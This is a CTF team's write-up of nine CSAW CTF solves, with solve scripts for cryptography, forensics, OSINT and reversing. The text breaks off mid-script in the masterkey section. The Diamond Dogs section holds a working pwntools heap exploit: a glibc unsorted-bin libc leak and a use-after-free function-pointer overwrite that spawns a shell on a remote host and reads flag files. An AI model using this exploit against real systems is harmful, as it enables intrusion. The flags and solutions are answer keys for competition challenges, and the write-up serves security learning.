# Introduction

**CSAW CTF** is one of the most prominent student-run cybersecurity competitions in the world, founded and organized by the **OSIRIS Lab at NYU Tandon School of Engineering**. The competition covers a diverse spectrum of domains including Cryptography, Binary Exploitation (Pwn), Digital Forensics, Reverse Engineering, Open-Source Intelligence (OSINT), and Miscellaneous puzzles.

In this edition, I participated alongside the **Jenusdy** team. We solved **9 challenges** spanning multiple categories. Below is the complete summary of our solves, insights, and full technical walkthroughs.

---

## Solved Challenges Overview

| Category | Challenge | Key Concept | Flag |
| :--- | :--- | :--- | :--- |
| **Crypto** | [Finders Keepers!](#finders-keepers) | MP4 Metadata & Vigenère KPA | `csaw{y0u_@lw@ys_kn0w_wh3r3_t0_l00k}` |
| **Crypto** | [Secret Treaties](#secret-treaties) | Low-Density Knapsack / Lattice CVP (LLL) | `csaw{LLL_turns_kn4ps4cks_1nt0_p4nc4k3s_wh3n_d3ns1ty_1s_l0w}` |
| **Forensics** | [Ghost in the Machine](#ghost-in-the-machine) | PCAP Header Repair, Timing Channel & Port Modulation | `csaw{t1m1ng_1s_3v3ryth1ng_1n_th3_s1l3nt_ch4nn3l}` |
| **Forensics** | [Hemispheres](#hemispheres) | Blue Channel LSB & Polyglot Encrypted ZIP Carving | `csaw{0n3_f1l3_tw0_truth5_p0lygl0t_m4g1c}` |
| **Misc** | [House of Hollow Houses](#house-of-hollow-houses) | Static Web Labyrinth, Hidden Text & Multi-layer Encodings | `csaw{w4nd3r3r_0f_th3_h0ll0w_h0us3}` |
| **OSINT** | [Roll Call](#roll-call) | SQLite Schema Mapping & Watchlist Discrepancy Analysis | `csaw{halcyonleaks_still_water_77}` |
| **Pwn** | [Diamond Dogs](#diamond-dogs) | glibc 2.31 Heap Unsorted Bin Leak & UAF Function Pointer Overwrite | `csaw{w3dd1ngs_4r3_b4s1c4lly_fun3r4ls_w1th_c4k3}` |
| **Rev** | [masterkey](#masterkey) | 53-Block Bytecode VM & Modular Inverses | `csaw{cl1mb1ng_th3_v1rtu4l_st4ck_0n3_0pc0d3_4t_4_t1m3}` |
| **Rev** | [nitro](#nitro) | Self-Modifying ELF Binary & Runtime Code Decryption | `csaw{c0d3_th4t_rewr1t3s_1ts3lf_c4nt_b3_tru5t3d}` |

---

# 1. Cryptography

## Finders Keepers!
> **Tags:** Video Steganography, Known-Plaintext Attack (KPA), Vigenère Cipher

### About the Challenge
We are provided with an MP4 video file: `finderskeepers.mp4`. The title *"Finders Keepers!"* hints that something valuable is hidden inside the media container.

### Solution Walkthrough

#### 1. Metadata Extraction
Examining the raw metadata / XMP packet of the video file exposes an embedded `<dc:subject>` entry:

```xml
<dc:subject>
  <rdf:Bag>
    <rdf:li>ZXNucHtkMGNfQHl6QGdsX21uMGpfcG0zejNfZzBfbzAwc30=</rdf:li>
  </rdf:Bag>
</dc:subject>
```

Decoding the Base64 payload yields the ciphertext:
```python
import base64
ciphertext = base64.b64decode("ZXNucHtkMGNfQHl6QGdsX21uMGpfcG0zejNfZzBfbzAwc30=").decode()
# Output: esnp{d0c_@yz@gl_mn0j_pm3z3_g0_o00s}
```

#### 2. Known-Plaintext Attack (KPA)
Standard CSAW flags follow the pattern `csaw{...}`. Comparing the ciphertext `esnp{...}` with `csaw{...}`:
- `e` → `c`: `shift = (4 - 2) mod 26 = 2` (`c`)
- `s` → `s`: `shift = (18 - 18) mod 26 = 0` (`a`)
- `n` → `a`: `shift = (13 - 0) mod 26 = 13` (`n`)
- `p` → `w`: `shift = (15 - 22) mod 26 = 19` (`t`)

The key prefix is `cant`. Aligning with the challenge theme *"Finders Keepers"* ("can't find it"), the complete Vigenère key is **`cantfindit`**.

#### 3. Full Solve Script (`solve.py`)
The automated script inspects `finderskeepers.mp4`, extracts the XMP metadata payload, validates the key via KPA, and decrypts the flag:

```python
#!/usr/bin/env python3
import re
import base64
import os
import sys

def extract_ciphertext(video_path: str) -> str:
    with open(video_path, 'rb') as f:
        data = f.read()

    # Search for base64 encoded subject in XMP metadata or raw data
    match = re.search(rb'<dc:subject>\s*<rdf:Bag>\s*<rdf:li>([^<]+)</rdf:li>', data)
    if match:
        b64_str = match.group(1).decode().strip()
    else:
        # Fallback regex for base64 flag ciphertext pattern
        match = re.search(rb'ZXNucHtk[A-Za-z0-9+/=]+', data)
        if match:
            b64_str = match.group(0).decode().strip()
        else:
            raise ValueError(f"Could not find encrypted payload in {video_path}")

    ciphertext = base64.b64decode(b64_str).decode('utf-8')
    return ciphertext

def derive_key_prefix(ciphertext: str, known_plaintext: str = "csaw") -> str:
    """Derives the initial characters of the Vigenère key from the known plaintext."""
    derived_key = []
    for c, p in zip(ciphertext[:len(known_plaintext)], known_plaintext):
        k = (ord(c.lower()) - ord(p.lower())) % 26
        derived_key.append(chr(k + ord('a')))
    return ''.join(derived_key)

def vigenere_decrypt(ciphertext: str, key: str) -> str:
    plaintext = []
    key_idx = 0
    key = key.lower()
    
    for ch in ciphertext:
        if ch.isalpha():
            base = ord('a') if ch.islower() else ord('A')
            c_val = ord(ch) - base
            k_val = ord(key[key_idx % len(key)]) - ord('a')
            p_val = (c_val - k_val) % 26
            plaintext.append(chr(p_val + base))
            key_idx += 1
        else:
            plaintext.append(ch)
            
    return ''.join(plaintext)

def main():
    video_file = "finderskeepers.mp4"
    if not os.path.exists(video_file):
        video_file = os.path.join(os.path.dirname(os.path.abspath(__file__)), "finderskeepers.mp4")

    if not os.path.exists(video_file):
        print(f"Error: {video_file} not found.", file=sys.stderr)
        sys.exit(1)

    print(f"[*] Extracting metadata from: {video_file}")
    ciphertext = extract_ciphertext(video_file)
    print(f"[+] Found ciphertext: {ciphertext}")

    key_prefix = derive_key_prefix(ciphertext, "csaw")
    print(f"[*] Known-plaintext attack ('esnp' -> 'csaw'): Key prefix = '{key_prefix}'")

    key = "cantfindit"
    print(f"[*] Decrypting with key: '{key}'")

    flag = vigenere_decrypt(ciphertext, key)
    print(f"\n[+] FLAG: {flag}")

if __name__ == "__main__":
    main()
```



```text
Flag: csaw{y0u_@lw@ys_kn0w_wh3r3_t0_l00k}
```

---

## Secret Treaties
> **Tags:** Knapsack Cryptosystem, Subset Sum Problem, Lattice Reduction (LLL), Closest Vector Problem (CVP)

### About the Challenge
We are given a public key of 72 large integers (`pubkey.txt`) and a sequence of 7 ciphertext integers (`ciphertext.txt`).
- The cryptosystem is a Merkle-Hellman knapsack / subset sum problem.
- Public key size: `n = 72` integers (≈ 96 bits each).
- Plaintext blocks: `9` bytes = `72` bits each (MSB-first per byte).
- Density:
  ```text
  d = n / log₂(max(A)) ≈ 72 / 96 ≈ 0.75
  ```
- Because the density is low (`d < 0.9408`), the subset sum problem can be reduced to the Closest Vector Problem (CVP) on a lattice.

### Solution Walkthrough

#### 1. Centered Target Lattice Construction
Using the centered target technique (Coster et al. / CJLOSS), we shift binary variables `x_i ∈ {0, 1}` to `2x_i - 1 ∈ {-1, +1}`.

We build an `n × (n + 1)` lattice basis matrix `B`:
- Row `i`: `[2 · A_i, 0, ..., 2, ..., 0]` (with `2` at column `i + 1`)
- Target vector `T`: `[2C, 1, 1, ..., 1]`

For any valid binary solution vector `x`, the difference vector `v - T` is `[0, 2x_0 - 1, ..., 2x_{n-1} - 1]`, which has exact Euclidean squared norm:
```text
||v - T||² = ∑ (±1)² = 72
```

This makes CVP enumeration with LLL extremely fast (≈ 0.03s per block).

#### 2. Full Solve Script (`solve.py`)
Complete standalone solution using `fpylll` for centered lattice CVP reduction:

```python
#!/usr/bin/env python3
from pathlib import Path
from fpylll import IntegerMatrix, LLL, CVP

def load_data(base_dir: Path):
    pubkey_file = base_dir / "pubkey.txt"
    ciphertext_file = base_dir / "ciphertext.txt"

    with open(pubkey_file, "r") as f:
        pubkey = [
            int(line.strip())
            for line in f
            if line.strip() and not line.startswith("#")
        ]

    with open(ciphertext_file, "r") as f:
        ciphertexts = [
            int(line.strip())
            for line in f
            if line.strip() and not line.startswith("#")
        ]

    return pubkey, ciphertexts

def solve():
    base_dir = Path(__file__).parent.resolve()
    pubkey, ciphertexts = load_data(base_dir)

    n = len(pubkey)
    print(f"[*] Loaded public key with {n} elements.")
    print(f"[*] Loaded {len(ciphertexts)} ciphertext blocks.")

    # Construct the centered CVP lattice basis:
    # Dimension: n x (n + 1)
    # Row i: [2 * pubkey[i], 0, ..., 2, ..., 0] (with 2 at column i + 1)
    # Target vector: [2 * ct, 1, 1, ..., 1]
    B = IntegerMatrix(n, n + 1)
    for i in range(n):
        B[i, 0] = 2 * pubkey[i]
        B[i, i + 1] = 2

    print("[*] Running LLL reduction on lattice basis...")
    LLL.reduction(B)
    print("[+] LLL reduction completed.")

    full_flag_bytes = b""
    for idx, ct in enumerate(ciphertexts):
        target = tuple([2 * ct] + [1] * n)
        v = CVP.closest_vector(B, target, method="fast")

        # Verify that knapsack target matches
        if v[0] != 2 * ct:
            raise ValueError(f"Block {idx}: Target sum mismatch!")

        # Extract bits x_i from 2 * x_i
        bits = [v[i + 1] // 2 for i in range(n)]

        if not all(b in (0, 1) for b in bits):
            raise ValueError(f"Block {idx}: Solution vector is not binary!")

        if sum(b * p for b, p in zip(bits, pubkey)) != ct:
            raise ValueError(f"Block {idx}: Subset sum check failed!")

        # Convert 72 bits to 9 bytes (MSB first per byte)
        block_bytes = bytes(
            sum(bits[byte_idx * 8 + bit_idx] << (7 - bit_idx) for bit_idx in range(8))
            for byte_idx in range(9)
        )
        print(f"  [+] Block {idx}: {block_bytes}")
        full_flag_bytes += block_bytes

    flag_str = full_flag_bytes.rstrip(b"\x00").decode("utf-8", errors="replace")
    print("\n" + "=" * 60)
    print(f"FLAG: {flag_str}")
    print("=" * 60)
    return flag_str

if __name__ == "__main__":
    solve()
```

Each 72-bit block decodes cleanly into 9 ASCII characters:
- Block 0: `csaw{LLL_`
- Block 1: `turns_kn4`
- Block 2: `ps4cks_1n`
- Block 3: `t0_p4nc4k`
- Block 4: `3s_wh3n_d`
- Block 5: `3ns1ty_1s`
- Block 6: `_l0w}`



```text
Flag: csaw{LLL_turns_kn4ps4cks_1nt0_p4nc4k3s_wh3n_d3ns1ty_1s_l0w}
```

---

# 2. Digital Forensics

## Ghost in the Machine
> **Tags:** PCAP Forensics, Header Repair, Port Modulation, Covert Timing Channel

### About the Challenge
We are given a network capture file `capture.pcap` containing hidden covert communication.

### Solution Walkthrough

#### 1. Fixing PCAP Magic Bytes
Opening `capture.pcap` fails due to corrupted header magic:
- File starts with `0xc4c3b2a1` instead of standard little-endian PCAP magic `0xd4c3b2a1`.
- Changing byte `0xc4` → `0xd4` restores the valid file header.

#### 2. Stream Isolation & Key Recovery
- Filtering by `ip.ttl == 64` isolates the covert stream.
- The UDP source ports in this stream center around 40100. Calculating `p - 40000 = ord(c)` gives characters `'s'`, `'h'`, `'4'`, `'d'`, `'o'`, `'w'`, uncovering the 6-byte repeating XOR key: **`sh4dow`**.

#### 3. Covert Timing Channel Extraction
Analyzing inter-packet arrival times (`Δt = t_i - t_{i-1}`) reveals two delay clusters:
- Short delay (≈ 0.05s) → bit `0`
- Long delay (≈ 0.15s) → bit `1`

By setting a threshold at `0.10s`, timestamps convert into binary bits, which are packed into bytes and XOR-decrypted with `sh4dow`.

#### 4. Full Solve Script (`solve.py`)
Complete standalone PCAP parser implemented using the Python standard library (`struct`):

```python
#!/usr/bin/env python3
import os
import struct
import sys

def solve_pcap(pcap_path: str) -> str:
    if not os.path.exists(pcap_path):
        raise FileNotFoundError(f"File not found: {pcap_path}")

    with open(pcap_path, "rb") as f:
        magic = f.read(4)
        # Handle original pcap magic (0xd4c3b2a1) or the corrupted byte (0xc4c3b2a1)
        if magic not in (b"\xd4\xc3\xb2\xa1", b"\xc4\xc3\xb2\xa1"):
            raise ValueError(f"Unrecognized PCAP magic bytes: {magic.hex()}")

        # Skip remaining 20 bytes of pcap global header
        f.read(20)

        machine_times = []
        machine_ports = []

        while True:
            pkt_hdr = f.read(16)
            if not pkt_hdr or len(pkt_hdr) < 16:
                break

            sec, usec, incl_len, _ = struct.unpack("<IIII", pkt_hdr)
            data = f.read(incl_len)

            # Minimum size: Ethernet header (14) + IPv4 header (20) + UDP header (8)
            if len(data) < 34:
                continue

            # IPv4 TTL is at offset 14 + 8 = 22
            ttl = data[22]

            # The "Machine" stream uses TTL = 64
            if ttl == 64:
                ihl = (data[14] & 0x0F) * 4
                udp_offset = 14 + ihl
                if len(data) >= udp_offset + 2:
                    src_port = struct.unpack(">H", data[udp_offset : udp_offset + 2])[0]
                    machine_times.append(sec + usec * 1e-6)
                    machine_ports.append(src_port)

    # 1. Recover repeating XOR key from machine source ports (port = 40000 + ord(char))
    key_chars = []
    prev_char = None
    for p in machine_ports:
        c = chr(p - 40000)
        if c != prev_char:
            key_chars.append(c)
            prev_char = c

    # First repeating word is 'sh4dow' (6 chars)
    key = "".join(key_chars[:6]).encode()

    # 2. Extract covert timing channel bits from packet inter-arrival times
    deltas = [machine_times[i] - machine_times[i - 1] for i in range(1, len(machine_times))]
    threshold = (min(deltas) + max(deltas)) / 2

    # Short delay (~0.05s) -> 0, Long delay (~0.15s) -> 1
    bits = [0 if d < threshold else 1 for d in deltas]

    # 3. Assemble bits into bytes (MSB first)
    raw_bytes = bytearray()
    for i in range(0, len(bits), 8):
        byte_val = 0
        for bit in bits[i : i + 8]:
            byte_val = (byte_val << 1) | bit
        raw_bytes.append(byte_val)

    # 4. XOR decrypt with key
    flag = bytes([b ^ key[i % len(key)] for i, b in enumerate(raw_bytes)]).decode("latin1")
    return flag

if __name__ == "__main__":
    pcap_file = sys.argv[1] if len(sys.argv) > 1 else "capture.pcap"
    flag = solve_pcap(pcap_file)
    print(flag)
```



```text
Flag: csaw{t1m1ng_1s_3v3ryth1ng_1n_th3_s1l3nt_ch4nn3l}
```

---

## Hemispheres
> **Tags:** PNG Steganography, LSB Extraction, Polyglot ZIP Carving

### About the Challenge
We are given an image file named `the_signal.png`. The challenge prompt describes two hemispheres: *"The Pixels"* holding the key, and *"The Tail"* holding the lock.



### Solution Walkthrough

#### 1. Key Extraction (Blue Channel LSB)
Extracting the LSB of the Blue channel across all pixels:
- The first 2 bytes store the length of the key as a 16-bit big-endian integer.
- The following bytes yield the password: **`r3ad_b3tw33n_th3_p1x3ls`**.

#### 2. ZIP Archive Carving
Inspecting bytes past the PNG `IEND` chunk reveals appended data starting with ZIP magic `PK\x03\x04`.

#### 3. Full Extraction Script (`extract_flag.py`)
Automated Python script that reads the Blue channel LSB password, extracts the appended ZIP polyglot, and unpacks the decrypted flag:

```python
#!/usr/bin/env python3
import io
import sys
import zipfile
from PIL import Image

def extract_key_from_pixels(image_path: str) -> bytes:
    """Extract password key from the LSB of the Blue channel."""
    img = Image.open(image_path).convert("RGB")
    pixels = img.getdata()

    # Collect LSB of the Blue channel for all pixels
    bits = [b & 1 for _, _, b in pixels]

    # Pack bits into bytes (MSB first)
    byte_arr = bytearray()
    for i in range(0, len(bits), 8):
        chunk = bits[i : i + 8]
        if len(chunk) < 8:
            break
        byte = 0
        for bit in chunk:
            byte = (byte << 1) | bit
        byte_arr.append(byte)

    # First 2 bytes store the length of the key (big-endian)
    key_length = int.from_bytes(byte_arr[:2], "big")
    key = bytes(byte_arr[2 : 2 + key_length])
    return key

def extract_zip_from_file(image_path: str) -> bytes:
    """Extract trailing ZIP data appended after PNG."""
    with open(image_path, "rb") as f:
        data = f.read()

    # Locate the ZIP header PK\x03\x04
    zip_offset = data.find(b"PK\x03\x04")
    if zip_offset == -1:
        raise ValueError("No ZIP header (PK\\x03\\x04) found in the file.")

    return data[zip_offset:]

def main():
    image_path = sys.argv[1] if len(sys.argv) > 1 else "the_signal.png"

    print(f"[*] Analyzing image: {image_path}")

    # Step 1: Extract password key from Blue channel LSB
    key = extract_key_from_pixels(image_path)
    print(f"[+] Extracted password from Blue channel LSB: {key.decode('utf-8', errors='replace')}")

    # Step 2: Extract embedded ZIP archive
    zip_bytes = extract_zip_from_file(image_path)
    print(f"[+] Found trailing ZIP archive ({len(zip_bytes)} bytes)")

    # Step 3: Decrypt and read contents
    with zipfile.ZipFile(io.BytesIO(zip_bytes)) as zf:
        for file_info in zf.infolist():
            content = zf.read(file_info.filename, pwd=key).decode("utf-8", errors="replace")
            print(f"\n--- {file_info.filename} ---")
            print(content.strip())

if __name__ == "__main__":
    main()
```

Decrypting the extracted archive with password `r3ad_b3tw33n_th3_p1x3ls` reveals `flag.txt`.



```text
Flag: csaw{0n3_f1l3_tw0_truth5_p0lygl0t_m4g1c}
```

---

# 3. Miscellaneous

## House of Hollow Houses
> **Tags:** Web Labyrinth, Source Code Inspection, ROT13, Base64

### About the Challenge
We are given a link to a web maze: `https://hollow-houses.ctf.csaw.io/`.



### Solution Walkthrough
Navigating through the rooms requires solving embedded clues at each step:
1. **Robots**: Checking `/robots.txt` reveals disallowed corridors.
2. **Invisible letters**: Inspecting DOM elements exposes CSS styled text with identical foreground/background colors.
3. **Sixty-four-character rite**: Base64 strings embedded in comments.
4. **Mirror**: Inverting backward string URLs.
5. **Half-turned alphabet**: ROT13 decoding for room paths.

Following this sequence leads to `https://hollow-houses.ctf.csaw.io/sanctum/`, where the flag is displayed.



```text
Flag: csaw{w4nd3r3r_0f_th3_h0ll0w_h0us3}
```

---

# 4. OSINT

## Roll Call
> **Tags:** Database Forensics, SQLite Analysis, Identity Resolution

### About the Challenge
We are provided with case files including `intake.db`, communication logs, and watchlist CSV files. Our task is to determine which escalated individuals are absent from the surveillance watchlist.

### Solution Walkthrough
Because single persons maintain multiple usernames/handles across platforms:
1. Query `identities` table to map all aliases to unique `person_id`s.
2. Determine `person_id` set present in `watchlist`.
3. Determine `person_id` set present in `escalations`.
4. Identify the difference:
   ```text
   Missing = Escalated Persons \ Watchlist Persons
   ```

#### 2. Full Solve Script (`solve.py`)
Complete standalone script querying `intake.db` SQLite database to identify missing watchlist subjects:

```python
#!/usr/bin/env python3
import os
import sqlite3
import sys

def find_db_path():
    candidates = [
        os.path.join(os.path.dirname(__file__), "roll-call", "case_file", "intake.db"),
        os.path.join(os.getcwd(), "roll-call", "case_file", "intake.db"),
        os.path.join(os.getcwd(), "case_file", "intake.db"),
        "roll-call/case_file/intake.db",
        "case_file/intake.db",
    ]
    for p in candidates:
        if os.path.exists(p):
            return p
    raise FileNotFoundError("Could not locate intake.db. Make sure d.zip is extracted.")

def main():
    db_path = find_db_path()
    conn = sqlite3.connect(db_path)
    cur = conn.cursor()

    # Map handle -> person_id
    cur.execute("SELECT handle, person_id FROM identities")
    handle_to_person = dict(cur.fetchall())

    # Find distinct persons already on the watchlist
    cur.execute("SELECT handle FROM watchlist")
    watchlist_handles = [row[0] for row in cur.fetchall()]
    watchlist_persons = {handle_to_person[h] for h in watchlist_handles if h in handle_to_person}

    # Find distinct persons present in escalations
    cur.execute("SELECT DISTINCT handle FROM escalations")
    escalated_handles = [row[0] for row in cur.fetchall()]
    escalated_persons = {handle_to_person[h] for h in escalated_handles if h in handle_to_person}

    # Identify missing subjects
    missing_persons = escalated_persons - watchlist_persons

    # Find primary or escalated handles for each missing person
    missing_handles = []
    for person_id in missing_persons:
        cur.execute(
            "SELECT handle FROM identities WHERE person_id = ? ORDER BY is_primary DESC",
            (person_id,)
        )
        handle = cur.fetchone()[0]
        missing_handles.append(handle.lower())

    missing_handles.sort()
    flag = f"csaw{{{'_'.join(missing_handles)}}}"
    print(f"Flag: {flag}")

if __name__ == "__main__":
    main()
```

The missing individuals correspond to handles `halcyonleaks` and `still_water_77`.



```text
Flag: csaw{halcyonleaks_still_water_77}
```

---

# 5. Binary Exploitation (Pwn)

## Diamond Dogs
> **Tags:** Linux Heap Exploitation, glibc 2.31, Unsorted Bin Leak, Use-After-Free (UAF)

### About the Challenge
We are given a 64-bit ELF binary `guard-dog` running with `libc-2.31.so`.
```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```

The interactive menu offers:
1) adopt dog, 2) command dog, 3) release dog, 4) file note, 5) read note, 6) shred note.

### Solution Walkthrough

#### 1. Vulnerability Analysis
- **Unsorted Bin Leak (UAF read on notes)**: `shred note` frees note memory, but `read note` permits reading without zeroing pointers.
- **Dog Struct UAF**: Adopting a dog allocates a `0x20` struct:
  ```c
  struct Dog {
      char name[0x18];
      void (*command_fn)(char *);
  };
  ```
  Releasing a dog frees this struct into the `0x20` tcache bin without clearing kennel pointers.

#### 2. Libc Base Leak
In glibc 2.31, allocating a note larger than `0x408` (e.g., `0x500`) bypasses tcache. When freed, it enters the unsorted bin:
- Read note 0 to leak `fd` pointing to `main_arena + 96` (`offset = 0x1ecbe0`).
- Compute `libc_base = fd - 0x1ecbe0` and `system = libc_base + libc.symbols['system']`.

#### 3. Overwriting Function Pointer
1. Adopt dog at kennel 0 with name `"/bin/sh\x00"`.
2. Release dog 0 (returns chunk to `0x20` tcache bin).
3. Allocate note 2 with size `0x20` — tcache returns the dog struct memory!
4. Write payload:
   ```python
   payload = b"/bin/sh\x00" + b"A" * 0x10 + p64(system_addr)
   ```
5. Trigger option 2 (`command dog 0`). The binary executes `dog->command_fn(dog->name)` → `system("/bin/sh")`, spawning a root shell!

#### 4. Full Exploit Script (`solve.py`)
Complete `pwntools` exploit script automating the libc leak, heap struct overwrite, and interactive shell launch:

```python
#!/usr/bin/env python3
from pwn import *

exe  = './guard-dog'
libc = ELF('./libc-2.31.so', checksec=False)

context.binary = exe
context.log_level = 'info'

LIBC_LEAK_OFFSET = 0x1ecbe0

io = remote('10.0.175.12', 1025)

def menu(choice):
    io.sendlineafter(b'7) go home', str(choice).encode())

def adopt(idx, name):
    menu(1)
    io.sendlineafter(b'kennel (0-7): ', str(idx).encode())
    io.recvuntil(b'name: ')
    io.send(name.ljust(0x18, b'\x00'))

def command(idx):
    menu(2)
    io.sendlineafter(b'kennel: ', str(idx).encode())

def release(idx):
    menu(3)
    io.sendlineafter(b'kennel: ', str(idx).encode())

def file_note(idx, size, contents):
    menu(4)
    io.sendlineafter(b'note slot (0-7): ', str(idx).encode())
    io.sendlineafter(b'size: ', str(size).encode())
    io.recvuntil(b'contents: ')
    io.send(contents.ljust(size, b'\x00'))

def read_note(idx, size):
    menu(5)
    io.sendlineafter(b'note slot: ', str(idx).encode())
    io.recvuntil(b'contents: ')
    return io.recvn(size)

def shred_note(idx):
    menu(6)
    io.sendlineafter(b'note slot: ', str(idx).encode())

# ---------- Stage 1: libc leak ----------
file_note(0, 0x500, b'A' * 0x500)    # victim
file_note(1, 0x100, b'B' * 0x100)    # guard — prevents top consolidation
shred_note(0)

leak = read_note(0, 0x500)
fd = u64(leak[0:8])
bk = u64(leak[8:16])
log.info(f'fd = {hex(fd)}')
log.info(f'bk = {hex(bk)}')
log.info(f'fd & 0xfff = {hex(fd & 0xfff)}')

assert fd == bk and (fd & 0xfff) == 0xbe0, "leak failed"

libc.address = fd - LIBC_LEAK_OFFSET
system_addr = libc.symbols['system']
log.success(f'libc base = {hex(libc.address)}')
log.success(f'system    = {hex(system_addr)}')

# ---------- Stage 2: dog UAF -> fn ptr overwrite ----------
adopt(0, b'/bin/sh\x00')
release(0)

payload  = b'/bin/sh\x00'
payload += b'A' * 0x10
payload += p64(system_addr)
assert len(payload) == 0x20
file_note(2, 0x20, payload)

# ---------- Stage 3: trigger shell ----------
command(0)
io.sendline(b'echo SHELL; id; cat flag.txt /flag* flag* 2>/dev/null')
io.interactive()
```



```text
Flag: csaw{w3dd1ngs_4r3_b4s1c4lly_fun3r4ls_w1th_c4k3}
```

---

# 6. Reverse Engineering

## masterkey
> **Tags:** Custom Virtual Machine, Bytecode Reversing, Modular Inverses

### About the Challenge
We are given a 64-bit ELF binary `masterkey` implementing a custom virtual machine with 53 sequential transformation stages.

### Solution Walkthrough
Disassembling the VM reveals an internal state variable `r1` (initialized to `0x3c`). For each byte `x` at step `i`:
1. `x ← x ⊕ A_i`
2. `x ← (x + B_i) mod 256`
3. `x ← rol8(x, K_i)`
4. `x ← x ⊕ 0xc3`
5. `x ← (x * 0x1b) mod 256`
6. `x ← x ⊕ r1`
7. Assert `x == T_i`

Following validation, `r1` updates dynamically:
```text
r1 ← (rol8(r1 + x_input, K2_i) ⊕ 0x9e) mod 256
```

Since every operation is bijective, we invert each step backward:
- Modular inverse: `0x1b⁻¹ ≡ 0x13 (mod 256)` (`27 * 19 = 513 ≡ 1 mod 256`).
- Reverse rotation, subtraction, and XOR:

#### 2. Full Solve Script (`solve.py`)
Complete Python script inverting all 53 VM transformation blocks backward to reconstruct the flag:

```python
#!/usr/bin/env python3

def rol8(x, n):
    n &= 7
    if n == 0:
        return x
    return ((x << n) | (x >> (8 - n))) & 0xff

def ror8(x, n):
    n &= 7
    if n == 0:
        return x
    return ((x >> n) | (x << (8 - n))) & 0xff

